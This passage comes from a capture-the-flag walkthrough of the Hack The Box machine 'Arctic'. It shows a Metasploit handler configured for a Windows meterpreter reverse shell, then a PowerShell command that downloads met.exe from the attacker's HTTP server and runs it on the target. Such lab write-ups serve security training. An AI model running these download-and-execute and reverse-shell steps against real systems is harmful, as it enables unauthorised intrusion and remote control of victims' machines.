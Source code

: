 Now start an http server in this folder so we can get to the file:

```text
root@kali:~/htb/machines/arctic# python -m SimpleHTTPServer
```

Go back to your msfconsole and get a handler waiting for a new reverse connection:

```text
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > show options
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  ----------
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > set windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > options
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
msf5 exploit(multi/handler) > set LHOST 10.10.14.31
LHOST => 10.10.14.31
msf5 exploit(multi/handler) > set LPORT 444
LPORT => 444
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.10.14.31:444
```

Go back to our existing user shell on the box, and grab our new payload we created in msfvenom:

```text
C:\ColdFusion8\runtime\bin>powershell.exe "(New-Object System.Net.WebClient).downloadFile('http://10.10.14.31:8000/met.exe','met.exe')"
```

File will be downloaded to current directory, now just run to open reverse shell back to msfconsole:

```text
C:\ColdFusion8\runtime\bin>met.exe
met.exe
```
